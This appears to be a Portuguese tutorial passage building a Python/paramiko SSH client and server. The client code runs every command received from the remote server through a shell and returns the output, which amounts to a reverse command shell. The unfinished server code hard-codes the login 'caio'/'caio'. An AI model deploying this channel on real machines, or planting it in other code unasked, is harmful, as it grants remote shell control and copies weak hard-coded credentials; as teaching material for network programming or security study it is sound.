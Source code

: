 ```py

        while True:
            # Recebe o novo comando, de fato
            command = ssh_session.recv(1024)
            try:
                cmd = command.decode()
                if cmd == 'exit':
                    client.close()
                    break
                # Executa o comando e espera o output, envia qualquer string para o outro usuário
                cmd_output = subprocess.check_output(cmd, shell=True)
                ssh_session.send(cmd_output or 'okay')
            except Exception as e:
                ssh_session.send(str(e))
            
        client.close()
    return

if __name__ == '__main__':
    import getpass
    user = input("Username: ")
    # user = getpass.getuser()
    password = getpass.getpass()

    ip = input('Insira o IP do servidor: ')
    port = input('Insira a porta ou <CR>: ')
    
    ssh_command(ip, port, user, password, 'ClientConnected')
```

O código acima é uma sessão SSH, ou seja, uma conexão entre o servidor SSH (que faremos em seguida) e a máquina atual. Ela deve ser executada na máquina do usuário com o servidor executando na máquina remota. Para o servidor SSH (`ssh_server.py`):

```py
import paramiko
import os
import socket
import sys
import threading

# Acha o caminho que está sendo executado o arquivo
CWD = os.path.dirname(os.path.realpath(__file__))
# Acha o arquivo que tem uma chave RSA
HOSTKEY = paramiko.RSAKey(filename=os.path.join(CWD, 'chave.key'))

class Server (paramiko.ServerInterface):
    # Thread para execução
    def __init__ (self):
        self.event = threading.Event()

    # Procura as sessions a serem conectadas
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    
    # Valida o usuário e a senha usadas
    def check_auth_password (self, username, password):
        if (username == 'caio') and (password == 'caio'):
            return paramiko.AUTH_SUCCESSFUL
            
if __name__ == '__main__':
    # Deve ser o IP local
```